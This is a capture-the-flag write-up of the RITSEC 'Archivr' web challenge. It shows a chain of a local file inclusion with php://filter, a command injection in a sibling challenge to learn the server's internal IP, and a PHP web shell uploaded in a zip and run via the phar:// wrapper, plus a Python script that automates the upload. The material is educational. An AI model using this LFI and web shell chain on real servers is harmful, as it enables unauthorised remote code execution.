 My team solved all the other web challenges. This was the only one left.

We did not solve this challenge during the CTF because I'm stupid and forgot how regex work :))))))).

Anyways I think it will make for a good writeup anyways. Enjoy.

![alt text](1.png "Chall")

## Recon

![alt text](2.png "Upload")

We can upload any file we want. Lets try upload shell.php

![alt text](4.png "Download")

The extension gets removed and replaced with .dat.

![alt text](3.png "Download")

We can dowload the file here if we enter `1542616333.dat`

Okay let's try some more extensions and figure out which ones are useful.

![alt text](5.png "Download")

Left side is upload filename, right side is filename returned by server.

Moving on. Not much else to do here as the file is just returned to us and not displayed.

## Dirb
Running dirb we get some new paths.

![alt text](6.png "Download")

Cool, we have found the upload directory. Let's see if we can browse our file.

```
/uploads/1542616333.dat (404)
```

Okay maybe that's not the correct folder.

## Exploiting LFI Wrappers
Using this payload we can view the source code of the download.php file as the input is not sanitized correctly.
```
http://fun.ritsec.club:8004/index.php?page=php://filter/convert.base64-encode/resource=download
```
![alt text](8.png "Download")
Decoding the base64 we get:
![alt text](7.png "Download")
This is the code for the upload page:
![alt text](11.png "Download")


So the upload folder is
```
uploads/md5(REMOTE_ADDR)/md5(time()).ext
```
## The hunt for the REMOTE_ADDR IP
In PHP `$_SERVER['REMOTE_ADDR']` returns the IP address in the format X.X.X.X of the user visiting the website.

What's different with this challenge is that the server is running inside docker (most likely) and behind a reverse proxy.

![alt text](apache404.png "Download")
If we visit a page that does not exist. We see that the web server is running apache.

![alt text](nginx.png "Download")

But if we view the header of the request it says nginx.

me ---> nginx (port 8003) ---- > apache (port 80)

Let's try some obvious ones as IP:
```
127.0.0.1
my remote ip
0.0.0.0
54.166.0.85 (ip of ritsec website)
```

None of these worked.... Bruteforce is not a option as we don't know in which range the ip is located.
### Wild idea: Spoofing The X-Forwarded-For (XFF) HTTP header field
I tried to add a header field with a custom IP to see if we can spoof remote address. This did not work and I never expected it to work.

```
X-Forwarded-For: 127.0.0.1
```

### Thinking outside the box: Exploiting another challenge
Remember how we had command injection in Lazy Dev. We know the setup of the CTF should be very similar.

```
curl -d "<?=phpinfo();?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
![alt text](9.png "Download")

Remote address of lazy dev is `10.0.10.254`.

Maybe it's the same for Archivr.

![alt text](10.png "Download")

Yaayy! We've found something. Instead of a 404 we get a forbidden (403).

## Create a payload
payload.php
```php
<?php

echo "win";

echo system($_GET["cmd"]);
```
payload.zip
```bash
$ zip payload.zip payload.php
```

Okay we got our payload that we should upload.

Now lets construct the URL.
We know from the recon phase we can't upload a .php file as it will be replaced with .dat.

To run PHP code we can upload a zip and use zip/phar wrappers to extract the zip and run the php file.

Now putting everything together we get:

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/md5(10.0.10.254)/md5(time()).zip/payload&cmd=ls -lha
`

And the final payload

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/98d3cbed97b0bc491c000455c9f8e6fb/48be30ab27aa9abc81fe735005f0e601.zip/payload&cmd=ls%20-lha`

![alt text](win.png "Download")

Now finding the flag should be quite easy. Just modify the cmd command!



Here's my python script I used:
```python
import sys
tries = []
import requests
import re

ips = ["10.0.10.254"]

def create_win(ip, filename):
	import hashlib
	m = hashlib.md5()

	m.update(str(ip))
	md5ip = m.hexdigest()

	m = hashlib.md5()
	m.update(filename)
	keymd5 = m.hexdigest()


	URL = 'http://54.211.94.128:8004/uploads/%s/%s.zip' % (md5ip, keymd5)
	print "Testing IP %s on URL %s" % (ip, URL)

	r = requests.get(URL)
	if r.status_code != 404:
		print "VICTORY!!!"
		print "Doing exploit"
		payload = "http://fun.ritsec.club:8004/index.php?page=phar://uploads/%s/%s.zip/payload&cmd=ls -lha" % (md5ip, keymd5)
		print payload		
		exit()

def upload_file():
	url = 'http://fun.ritsec.club:8004/index.php?page=upload'
	files = {'upload': open('payload.zip', 'rb')}
	r = requests.post(url, files=files)
	resp = r.text
	matches = re.search(r'>(.*).zip', resp).group()[1:] #For those curios. This is the code that was wrong and lost us 300 points and a ~5th place.
	return matches.split(".")[0] #Quick and dirty fix with split just to make it work :D


create_win("10.0.10.254", upload_file())
```

Hope you learnt something. I sure did :)
